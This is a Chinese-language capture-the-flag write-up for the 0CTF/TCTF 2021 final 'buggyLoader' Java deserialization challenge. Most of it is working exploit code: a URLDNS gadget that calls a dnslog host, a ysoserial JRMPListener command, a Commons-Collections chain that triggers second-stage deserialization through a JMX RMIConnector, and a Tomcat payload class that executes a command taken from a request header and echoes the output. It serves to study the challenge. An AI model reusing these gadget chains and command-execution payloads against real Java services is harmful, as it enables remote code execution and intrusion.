



## TCTFfinal

### buggloader

本题的核心点。

>resovleClass使用的是ClassLoader.loadClass()而非Class.forName()，而ClassLoader.loadClass不支持装载数组类型的class。

通过nginx代理内网的8080端口到80. 导致不出网。

```
server {
    listen       80;
    server_name  localhost;
    location / {
        root   /usr/share/nginx/html;
        index  index.html index.htm;
		proxy_pass http://web:8080;
    }
    error_page   500 502 503 504  /50x.html;
    location = /50x.html {
        root   /usr/share/nginx/html;
    }
}
```

dnslog

```java
System.out.println(objectToHexString(urldns()));

public static Object urldns() throws Exception {
        HashMap<URL, String> hashMap = new HashMap<URL, String>();
        //URL对象传入自己测试的dnslog
        URL url = new URL("http://2ihodi.dnslog.cn");
        //反射获取 URL的hashcode方法
        Field f = Class.forName("java.net.URL").getDeclaredField("hashCode");
        //使用内部方法 设置允许访问
        f.setAccessible(true);
        // put 一个值的时候就不会去查询 DNS，避免和刚刚混淆
        f.set(url, 123);
        hashMap.put(url, "Firebasky");
        // hashCode 这个属性放进去后设回 -1, 这样在反序列化时就会重新计算 hashCode
        f.set(url, -1);
        return hashMap;
    }

public static String objectToHexString(Object obj) throws Exception {
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream out = null;
        out = new ObjectOutputStream(bos);
        out.writeUTF("0CTF/TCTF");
        out.writeInt(2021);
        out.writeObject(obj);
        out.flush();
        byte[] bytes = bos.toByteArray();
        bos.close();
        String hex = bytesTohexString(bytes);
        return hex;
    }
    public static String bytesTohexString(byte[] bytes) {
        if (bytes == null) {
            return null;
        } else {
            StringBuilder ret = new StringBuilder(2 * bytes.length);

            for(int i = 0; i < bytes.length; ++i) {
                int b = 15 & bytes[i] >> 4;
                ret.append("0123456789abcdef".charAt(b));
                b = 15 & bytes[i];
                ret.append("0123456789abcdef".charAt(b));
            }

            return ret.toString();
        }
    }
```

jrmp 并以为可以打，才发现环境不出网，并且jdk的版本可能会导致不行。。。

```
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 12345 CommonsCollections6 'calc'
```

#### 二次反序列化

这里我就直接给exp，exp是 https://github.com/waderwu/My-CTF-Challenges/tree/master/0ctf-2021-final/buggyLoader/writeup

自己并没有做出来，是后面分析出的。。

该exp的核心 一是使用了cc11链，而且使用了jmx去进行二次反序列化。http://mx4j.sourceforge.net/docs/ch03s15.html

通过jmx去封装，去触发二次反序列化。

exp

```java
package com.tctffinal.demo.exp2;

import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.remote.JMXServiceURL;
import javax.management.remote.rmi.RMIConnector;
import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.HashSet;
import java.util.Map;

public class Exp {
    public static void main(String[] args) throws Exception{
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);

        //创建InvokerTransformer类 sink
        InvokerTransformer transformer = new InvokerTransformer("connect", null, null);

        //JMXServiceURL jurl = new JMXServiceURL("service:jmx:rmi:///stub/" + Temp.getExp());//jmx协议
        //Map hashMapp = new HashMap();
        //RMIConnector rc = new RMIConnector(jurl,hashMapp);

        String finalExp = "service:jmx:rmi:///stub/" + Temp.getExp();//jmx协议
        RMIConnector rmiConnector = new RMIConnector(new JMXServiceURL(finalExp), new HashMap<>());//jmx连接


        Map hashMap = new HashMap();
        Map lazyMap = LazyMap.decorate(hashMap, transformer);//实例化lazymap
        //
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, rmiConnector);

        //通过hashset去触发。
        HashSet hashset = new HashSet(1);
        hashset.add("foo");
        Field f = null;
        try {
            f = HashSet.class.getDeclaredField("map");
        } catch (NoSuchFieldException e) {
            f = HashSet.class.getDeclaredField("backingMap");
        }
        f.setAccessible(true);
        HashMap hashset_map = (HashMap) f.get(hashset);

        Field f2 = null;
        try {
            f2 = HashMap.class.getDeclaredField("table");
        } catch (NoSuchFieldException e) {
            f2 = HashMap.class.getDeclaredField("elementData");
        }

        f2.setAccessible(true);
        Object[] array = (Object[])f2.get(hashset_map);

        Object node = array[0];
        if(node == null){
            node = array[1];
        }
        Field keyField = null;
        try{
            keyField = node.getClass().getDeclaredField("key");
        }catch(Exception e){
            keyField = Class.forName("java.util.MapEntry").getDeclaredField("key");
        }
        keyField.setAccessible(true);
        keyField.set(node,tiedMapEntry);


        oos.writeUTF("0CTF/TCTF");
        oos.writeInt(2021);
        oos.writeObject(hashset);
        oos.close();

        byte[] exp = baos.toByteArray();
        String data = com.tctffinal.demo.Utils.bytesTohexString(exp);
        System.out.println(data);
        //String cc = "curl -v http://121.4.155.228/buggy -H c014:c014 -d data="+data;
        //System.out.println(cc);
        //java.io.InputStream in = Runtime.getRuntime().exec(cc).getInputStream();
        //java.util.Scanner s = new java.util.Scanner(in).useDelimiter("\\a");
        //String output = s.hasNext() ? s.next() : "";
        //System.out.println(output);
    }
}
```

调用栈

```java
findRMIServerJRMP:2007, RMIConnector (javax.management.remote.rmi)
findRMIServer:1924, RMIConnector (javax.management.remote.rmi)
connect:287, RMIConnector (javax.management.remote.rmi)
connect:249, RMIConnector (javax.management.remote.rmi)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
transform:126, InvokerTransformer (org.apache.commons.collections.functors)
get:158, LazyMap (org.apache.commons.collections.map)
getValue:74, TiedMapEntry (org.apache.commons.collections.keyvalue)
hashCode:121, TiedMapEntry (org.apache.commons.collections.keyvalue)
hash:339, HashMap (java.util)
put:612, HashMap (java.util)
readObject:342, HashSet (java.util)
```

核心点还是cc组件中的核心。InvokerTransformer#transform只不过不能是数组去循环了。。分析过cc的自然懂我在说什么。。。






然后就会一直跟着RMIConnector#invoke 会一直到RMIConnector#findRMIServerJRMP



并且进行一个二次反序列化，就是一个正常的readobject操作。后面就是一个正常的cc11。

然后的话基本上就是写一个执行命令并且有回显。这些自己就没有详细分析因为慢慢来，之前看了一个项目java回显。

evilclass.java

```java
package com.tctffinal.demo.exp2;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

public class EvilClass extends AbstractTranslet {
    static {
        try {
            java.lang.reflect.Field contextField = org.apache.catalina.core.StandardContext.class.getDeclaredField("context");
            java.lang.reflect.Field serviceField = org.apache.catalina.core.ApplicationContext.class.getDeclaredField("service");
            java.lang.reflect.Field requestField = org.apache.coyote.RequestInfo.class.getDeclaredField("req");
            java.lang.reflect.Method getHandlerMethod = org.apache.coyote.AbstractProtocol.class.getDeclaredMethod("getHandler",null);            contextField.setAccessible(true);
            serviceField.setAccessible(true);
            requestField.setAccessible(true);
            getHandlerMethod.setAccessible(true);
            org.apache.catalina.loader.WebappClassLoaderBase webappClassLoaderBase =
                (org.apache.catalina.loader.WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
            org.apache.catalina.core.ApplicationContext applicationContext = (org.apache.catalina.core.ApplicationContext) contextField.get(webappClassLoaderBase.getResources().getContext());
            org.apache.catalina.core.StandardService standardService = (org.apache.catalina.core.StandardService) serviceField.get(applicationContext);
            org.apache.catalina.connector.Connector[] connectors = standardService.findConnectors();
            for (int i=0;i<connectors.length;i++) {
                if (4==connectors[i].getScheme().length()) {
                    org.apache.coyote.ProtocolHandler protocolHandler = connectors[i].getProtocolHandler();
                    if (protocolHandler instanceof org.apache.coyote.http11.AbstractHttp11Protocol) {
                        Class[] classes = org.apache.coyote.AbstractProtocol.class.getDeclaredClasses();
                        for (int j = 0; j < classes.length; j++) {
                            if (52 == (classes[j].getName().length())||60 == (classes[j].getName().length())) {
                                java.lang.reflect.Field globalField = classes[j].getDeclaredField("global");
                                java.lang.reflect.Field processorsField = org.apache.coyote.RequestGroupInfo.class.getDeclaredField("processors");
                                globalField.setAccessible(true);
                                processorsField.setAccessible(true);
                                org.apache.coyote.RequestGroupInfo requestGroupInfo = (org.apache.coyote.RequestGroupInfo) globalField.get(getHandlerMethod.invoke(protocolHandler,null));
                                java.util.List list = (java.util.List) processorsField.get(requestGroupInfo);
                                for (int k = 0; k < list.size(); k++) {
                                    org.apache.coyote.Request tempRequest = (org.apache.coyote.Request) requestField.get(list.get(k));
                                    if ("cmd".equals(tempRequest.getHeader("cmd"))) {
                                        org.apache.catalina.connector.Request request = (org.apache.catalina.connector.Request) tempRequest.getNote(1);
                                        String cmd = tempRequest.getHeader("X-FLAG");
                                        //String[] cmds =  new String[]{"cmd.exe", "/c", "whoami"};
                                        java.io.InputStream in = Runtime.getRuntime().exec(cmd).getInputStream();
                                        java.util.Scanner s = new java.util.Scanner(in).useDelimiter("\\a");
                                        String output = s.hasNext() ? s.next() : "";
                                        java.io.Writer writer = request.getResponse().getWriter();
                                        java.lang.reflect.Field usingWriter = request.getResponse().getClass().getDeclaredField("usingWriter");
                                        usingWriter.setAccessible(true);
                                        usingWriter.set(request.getResponse(), Boolean.FALSE);
                                        writer.write(output);//输出
                                        writer.flush();
                                        break;
                                    }
                                }
                                break;
                            }
                        }
                    }
                    break;
                }
            }
        }catch (Exception e){
        }
    }


    public static void main(String[] args) {

    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```

#### **问题？为什么之前的cc链打不通需要通过jmx去封装**

看了文章

http://w4nder.top/?p=410

https://blog.0kami.cn/2019/11/10/java/study-java-deserialized-shiro-1-2-4/

**而上面是shiro550不能利用的原因，本题原因？不是特别懂。之后在深入了解。**

更新:自己跟了一下resolveClass一般会返回Class，而该Class是通过this.classLoader.loadClass()去获得的，也就是类加载器去获得的，这里涉及了类双亲委派。是通过类名去加载的，如果传递数组肯定要抛异常，细节就是通过findClass()去找父类去尝试加载。


```java
findClass:380, URLClassLoader (java.net)
loadClass:424, ClassLoader (java.lang)
loadClass:411, ClassLoader (java.lang)
loadClass:349, Launcher$AppClassLoader (sun.misc)
loadClass:411, ClassLoader (java.lang)
loadClass:357, ClassLoader (java.lang)
resolveClass:22, MyObjectInputStream (com.tctffinal.demo)
```


那为什么shiro可以配合tempimpl打该题不行。原因还是因为jdk不支持。

>其实createTemplatesImpl的利用方式中还是存在数组形式的，byte[]数组用于存储evil class。但是在tomcat 7及以上的环境下，java的原生数据类型的数组还原不影响反序列化，只针对对象级别的数组还原。而tomcat6的实现方式直接不允许数组类型的还原，也就是说该利用链在tomcat6的环境下是成功不了的。


>参考：
>
>https://blog.orange.tw/2018/03/pwn-ctf-platform-with-java-jrmp-gadget.html?showComment=1593056316455#c1497238587407666336
>
>https://joychou.org/java/apache-shiro-java-deserialize-vulnerability.html
>
>https://stackoverflow.com/questions/30406524/loading-an-array-with-a-classloader
>
>https://threedr3am.github.io/2020/03/03/%E6%90%9E%E6%87%82RMI%E3%80%81JRMP%E3%80%81JNDI-%E7%BB%88%E7%BB%93%E7%AF%87/
>
>https://bling.kapsi.fi/blog/jvm-deserialization-broken-classldr.html
>
>http://w4nder.top/?p=410
>
>https://y4er.com/post/javaagent-tomcat-memshell/
>
>https://l3yx.github.io/2020/03/31/Java-Web%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%E5%9B%9E%E6%98%BE%E6%80%BB%E7%BB%93/#%E5%9F%BA%E4%BA%8E%E5%85%A8%E5%B1%80%E5%82%A8%E5%AD%98%E8%8E%B7%E5%8F%96Tomcat-Response
